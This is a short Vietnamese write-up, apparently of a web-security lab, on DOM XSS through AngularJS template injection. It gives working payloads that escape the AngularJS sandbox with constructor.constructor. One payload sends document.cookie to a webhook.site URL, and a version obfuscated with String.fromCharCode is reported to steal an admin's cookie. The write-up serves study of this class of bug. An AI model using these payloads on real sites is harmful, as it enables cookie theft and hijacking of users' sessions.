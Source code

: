 Có thể thấy `Function()` có thể thực hiện code ở global

payload: `{{ constructor.constructor("alert(1)")() }}` (tương đương new Function(”alert(1)”) và được nằm trong `{}` nên alert(1) sẽ được thực thi)

![image.png](Images/image%2026.png)

Tạo payload lấy cookie của admin thông qua url và gửi về webhook

payload: `{{constructor.constructor(&#39;document.location="https://webhook.site/2d5ca3fe-362e-49fa-a0b5-9b1c76f8a280?data=".concat(document.cookie)&#39;)()}}` (Dấu `'` đã bị filter nên sẽ HTML entity encode thành `&#39;`)

—> Gửi được cookie của bản thân thành công

Nhưng vì 1 lý do nào đó mà khi craft vào link payload y trang vậy để lấy admin cookie thì lại không có phản hồi từ webhook

Thử dùng funcion `String.fromCharCode()` chuyển từ ascii sang string

payload: `{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(100, 111, 99, 117, 109, 101, 110, 116, 46, 108, 111, 99, 97, 116, 105, 111, 110, 61, 39, 104, 116, 116, 112, 115, 58, 47, 47, 119, 101, 98, 104, 111, 111, 107, 46, 115, 105, 116, 101, 47, 50, 100, 53, 99, 97, 51, 102, 101, 45, 51, 54, 50, 101, 45, 52, 57, 102, 97, 45, 97, 48, 98, 53, 45, 57, 98, 49, 99, 55, 54, 102, 56, 97, 50, 56, 48, 63, 100, 97, 116, 97, 61, 39, 46, 99, 111, 110, 99, 97, 116, 40, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 41))()}}` (ascii encode của payload ban đầu)

—> Lấy cookie của admin thành công

![DOM_XSS_Angularjs.png](Images/DOM_XSS_Angularjs.png)
